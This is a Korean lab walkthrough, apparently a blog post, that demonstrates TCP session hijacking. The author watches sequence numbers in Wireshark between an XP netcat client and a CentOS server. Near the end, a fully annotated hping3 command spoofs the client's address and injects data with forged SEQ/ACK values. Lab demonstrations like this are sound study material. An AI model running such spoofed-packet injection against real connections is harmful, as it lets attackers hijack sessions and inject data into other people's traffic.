




#  TCP Session Hijacking

구성도


<br>

xp -> netcat 설치


<br>

centOS -> nc패키지 설치 -> 실


<br>

xp -> netcat 실행 후 확인


xp에서 netcat을 실행 후 centOS와 연결하여 실행해 봤습니다.

<br>

WireShark


3wayhand-shake 하는 모습도 WireShark에서 보입니다.

<br>

WireShark -> edit -> preferences


저 부분을 체크해제 하면 실제 sequence number가 보입니다.


<br>

netcat 다시 시작


다시 시작하고 한글자 씩 늘려서 보내 보겠습니다.

<br>

WireShark


length 만큼 sequence number가 늘어나는 모습이 보입니다.

<br>

WireShark 정보


PSH , ACK 부분을 보시면 글자수 + enter 까지 인식하여 나오는 모습도 보입니다. 위 사진을 보시면 len= 부분을 보시면 length 부분으로도 확인 가능 합니다.

<br>

##### Hijacking

이제 Hijacking을 해 보겠습니다. 위에서 알아봤던 sequence number를 이용해서 하는 방법입니다.


xp -> netcat 실행


비교를 위해 2개의 신호를 보내겠습니다.

<br>

마지막 sequence number 확인


<br>

kali -> 파일생성



<br>

kali -> 공격



```
hping3
-a 172.16.0.100 공격대상 클라이언트(XP) :  syn,ack 를 변조할 대상
-s 1030(출발지 포트)
-p 9000(목적지 포트)
-M 0x275e5f60(SYN)
-L 0xc945b972(ACK)
-E /root/data.txt   (보낼글자가 있는 파일명 echo hello > /root/data)
-d 6(hello+LF)
-PA (PUSH,ACK)
-c 1
172.16.0.120(서버주소:보낼대상) 

```

<br>

확인





xp에서 아무것도 하지 않았지만 centOS에 hello가 찍혀있고 seq, ack가 앞서 봣던것과 똑같은 모습이 보입니다.

<br>

